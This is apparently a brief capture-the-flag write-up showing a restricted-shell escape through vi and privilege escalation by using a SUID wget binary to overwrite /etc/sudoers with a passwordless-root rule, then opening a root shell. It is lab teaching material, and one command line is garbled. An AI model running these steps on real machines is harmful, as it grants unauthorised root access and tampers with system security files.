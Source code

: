 ### abusing WGET suid
https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
~~~~
:set shell=/bin/bash
:shell
export PATH=.bin:/usr/bin/
echo $PATH
~~~~
##### use wget SUID to transfer file to /etc/sudoers
~~~~
cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file
~~~~
~~~~
python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 
~~~~
`root@rbash_attackdefense:~$`
